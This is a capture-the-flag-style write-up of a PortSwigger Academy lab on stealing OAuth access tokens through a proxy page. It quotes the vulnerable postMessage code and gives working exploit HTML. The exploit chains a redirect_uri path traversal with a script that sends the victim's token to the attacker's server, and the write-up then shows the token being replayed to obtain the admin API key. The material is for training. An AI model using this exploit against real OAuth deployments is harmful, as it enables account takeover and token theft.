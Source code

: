 # Stealing OAuth access tokens via a proxy page

**Date:** 10, August, 2021

**Author:** Dhilip Sanjay S

---

## Task

- This lab uses an OAuth service to allow users to log in with their social media account. 
- **Flawed validation** by the OAuth service makes it possible for an attacker to **leak access tokens to arbitrary pages** on the client application.

- To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account.

- Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

- You can log in via your own social media account using the following credentials: `wiener:peter`.

---

## Solution

- The comment section of the blog is an iframe, which uses `postMessage()`:

```js
parent.postMessage({type: 'onload', data: window.location.href}, '*')
function submitForm(form, ev) {
    ev.preventDefault();
    const formData = new FormData(document.getElementById("comment-form"));
    const hashParams = new URLSearchParams(window.location.hash.substr(1));
    const o = {};
    formData.forEach((v, k) => o[k] = v);
    hashParams.forEach((v, k) => o[k] = v);
    parent.postMessage({type: 'oncomment', content: o}, '*');
    form.reset();
}        
```

{% hint style="info" %}
- On loading, there is a post message made to the parent window, with the URL as such in the data.
- The transfer origin is also set to `*`.
{% endhint %}


### Exploit code

```html
<iframe src="https://oauth-ac731f1e1e8b2c638026bd5c021700f9.web-security-academy.net/auth?client_id=hmu084l9x487ob0rhph0d&redirect_uri=https://ac5c1f5d1e832c51805ebd05001000b2.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-391999832&scope=openid%20profile%20email">
</iframe>

<script>
window.addEventListener('message', function(e) {
fetch("/" + encodeURIComponent(e.data.data))       
}, false)
</script>
```

### Access Token

- We get the access token in the logs of the exploit server.

![Access Token](../Images/Lab5-AccessToken.png)

{% hint style="info" %}
- To get only the access_token from the data, use `e.data.data.split("#")[1].split("&")[0]` in the script.
{% endhint %}


### API Key

- Now in the OAuth flow - `/me` request, replace the **Bearer** token with admin's token.
- You'll get the API key. Submit it to solve the lab!

![Access Token](../Images/Lab5-solved.png)

---

## References

[Post Message in Javascript](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)